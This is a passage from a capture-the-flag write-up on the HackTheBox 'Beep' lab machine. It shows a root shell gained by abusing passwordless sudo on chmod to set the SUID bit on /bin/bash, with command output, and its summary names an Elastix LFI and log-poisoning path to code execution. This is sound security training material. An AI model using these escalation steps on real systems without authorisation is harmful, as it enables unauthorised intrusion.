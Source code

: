 In here, we can see that user `asterisk` is able to **run bunch of commands as `root` without any password**!

For me, I'll choose `/bin/chmod` to escalate our privilege to `root`. This binary can add a SUID sticky bit to a file. **If we add it in `/bin/bash`, we can spawn a root Bash shell**.

```shell
bash-3.2$ sudo /bin/chmod +s /bin/bash
bash-3.2$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 713K Jan 22  2009 /bin/bash
```

```shell
bash-3.2$ /bin/bash -p
bash-3.2# whoami; id; hostname; ip a
root
uid=100(asterisk) gid=101(asterisk) euid=0(root) egid=0(root) groups=101(asterisk)
beep
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:b9:40:cf brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.7/24 brd 10.10.10.255 scope global eth0
```

I'm now `root`! :D

## Rooted

**root.txt:**
```shell
bash-3.2# cd /root
bash-3.2# cat root.txt
{Redacted}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Beep/images/Pasted%20image%2020230803180354.png)

## Conclusion

What we've learned:

1. Exploiting RCE via Elastix 2.2.0 LFI & LFI log poisoning via email
2. Vertical privilege escalation via misconfigurated Sudo permission